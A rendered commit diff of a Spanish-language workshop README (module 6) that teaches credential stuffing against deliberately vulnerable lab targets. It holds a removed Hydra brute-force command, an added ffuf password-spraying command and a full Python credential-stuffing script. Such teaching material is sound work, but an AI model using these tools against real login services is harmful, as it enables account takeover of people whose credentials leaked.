

Before and after one commit to edelahozuah/intro-to-password-workshop, a Markdown page: exercises/module6/README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Fix M6 credential stuffing: Use vulnerable-api instead of DVWA (CSRF issue)

````diff
--- a/exercises/module6/README.md
+++ b/exercises/module6/README.md
@@ -96,82 +96,86 @@ ls -lh
 # Formato del archivo: usuario:contraseña
 head leaked_credentials.txt
 
-# Convertir a formato Hydra
-# Opción 1: Separar usuarios y passwords
+# Convertir a formato para ataque
 cut -d: -f1 leaked_credentials.txt > users.txt
 cut -d: -f2 leaked_credentials.txt > passwords.txt
-
-# Ataque contra DVWA
-hydra -L users.txt -P passwords.txt dvwa http-post-form \
-  "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 4
 ```
 
-**Problema**: Esto prueba **todas las combinaciones** (usuarios × passwords).
+> [!WARNING]
+> **DVWA tiene CSRF tokens** que impiden ataques simples con Hydra. Usaremos **vulnerable-api** para este ejercicio.
+
+#### Ataque con FFUF contra vulnerable-api
+
+```bash
+# Probar cada password del leak para un usuario
+ffuf -w passwords.txt \
+     -u http://vulnerable-api:5000/api/login \
+     -X POST \
+     -H "Content-Type: application/json" \
+     -d '{"username":"admin","password":"FUZZ"}' \
+     -mc 200
+
+# Resultado esperado si encuentra la contraseña:
+# [Status: 200, Size: 150, ...]
+#     * FUZZ: password
+```
+
+**Problema**: Esto solo prueba un usuario. Para credential stuffing real necesitamos probar **pares específicos**.
 
 ---
 
 ### Ejercicio 2: Script Python para matching perfecto 🟡
+
+El script prueba **pares exactos** usuario:contraseña (no todas las combinaciones).
 
 Crear `credential_stuffing.py`:
 
 ```python
 #!/usr/bin/env python3
 """
-Credential Stuffing Script
+Credential Stuffing Script para vulnerable-api
 Intenta login con pares específicos usuario:contraseña
 """
 
 import requests
 import time
-from urllib.parse import urljoin
+import json
 
 # Configuración
-TARGET_URL = "http://dvwa/login.php"
+TARGET_URL = "http://vulnerable-api:5000/api/login"
 CREDENTIALS_FILE = "leaked_credentials.txt"
-SUCCESS_INDICATOR = "Welcome"  # String que indica login exitoso
-FAIL_INDICATOR = "Login failed"
 
 def test_credential(session, username, password):
     """Intenta login con credencial específica"""
-    data = {
-        'username': username,
-        'password': password,
-        'Login': 'Login'
-    }
+    data = {"username": username, "password": password}
 
     try:
-        response = session.post(TARGET_URL, data=data, timeout=5)
+        response = session.post(
+            TARGET_URL,
+            json=data,
+            headers={"Content-Type": "application/json"},
+            timeout=5
+        )
 
-        if SUCCESS_INDICATOR in response.text:
-            return True
-        elif FAIL_INDICATOR in response.text:
-            return False
-        else:
-            # Respuesta ambigua, asumimos fallo
-            return None
-    except requests.exceptions.RequestException as e:
-        print(f"[!] Error de red: {e}")
+        result = response.json()
+        return result.get("success", False)
+    except Exception as e:
+        print(f"[!] Error: {e}")
         return None
 
 def main():
     print("=" * 60)
-    print("Credential Stuffing Simulation")
+    print("Credential Stuffing - vulnerable-api")
     print("=" * 60)
 
-    # Crear sesión persistente (más rápido)
     session = requests.Session()
-    session.headers.update({
-        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
-    })
-
-    # Leer credenciales
     valid_creds = []
     total = 0
 
     with open(CREDENTIALS_FILE, 'r') as f:
         for line in f:
             line = line.strip()
-            if ':' not in line:
+            if ':' not in line or line.startswith('#'):
                 continue
 
             username, password = line.split(':', 1)
@@ -187,5 +191,5 @@ def main():
             elif result is False:
                 print("✗ Inválida")
             else:
-                print("? Ambigua")
+                print("? Error")
 
````
Also changed, not shown: other parts of exercises/module6/README.md (+3 -4 lines).
